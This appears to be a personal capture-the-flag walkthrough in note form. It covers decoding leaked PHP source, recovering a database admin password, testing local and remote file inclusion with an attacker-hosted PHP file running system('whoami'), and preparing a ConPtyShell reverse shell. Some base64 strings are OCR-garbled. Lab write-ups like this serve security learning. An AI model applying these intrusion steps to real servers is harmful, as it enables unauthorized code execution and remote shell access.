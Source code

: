 `echo -n 'PD9waHAKZGVmaW5|KCdpbmNsdWRIZCcsdHJ1ZSk7CnNIc3Npb25fc3RhcnQoKTsKaWYoIW|zc2VOKC/PgoJCTwvZGI2PgoJPC9jZW50ZXI+CjwvYm9keT4KPC9odG1sPg==' | base64 -d > index.php`

Got a `db_admin` password

`"db admin", "PWD" => 'B1@hx31234567890'`

![[Pasted image 20250106202648.png]]
Repeating this with `/master.php`

![[Pasted image 20250106202825.png]]

`echo -n 'PGgxPk1vdmllIG1hbmFnbWVudDwvaDE+DQo8P3BocA0KaWYoIWRIZmluZWQoJ2luY2x1ZGVkJykpD‹/Pil+DQoJCQkJPGlucHVOIHR5cGU9InN1Ym1pdClgY2xhc3M9ImJObiBidG4tc20gYnRuLXByaW1hcnkilHZhb' | base64 -d > master.php`

Some contents of `master.php`

![[Pasted image 20250106203106.png]]
Indicate that we can do a file inclusion.

Back to Burp Repeater to try to reach `/etc/passwd

![[Pasted image 20250106203236.png]]
No results.

Messing with different include statements:

![[Pasted image 20250106203429.png]]
No results. 

Trying this:

![[Pasted image 20250106203818.png]]


ippsec.php on attacker machine just says `echo -n Please Subscribe`

![[Pasted image 20250106203752.png]]
Modifying `ippsec.php` to enumerate webserver

`system("whoami");`

![[Pasted image 20250106203936.png]]
Result in the form lul

![[Pasted image 20250106204028.png]]
Replacing `ippsec.php` with a reverse shell

On Windows, we can use #conptyshell [[ConPtyShell]]

GitHub:
https://github.com/antonioCoco/ConPtyShell


Copy this PowerShell file 
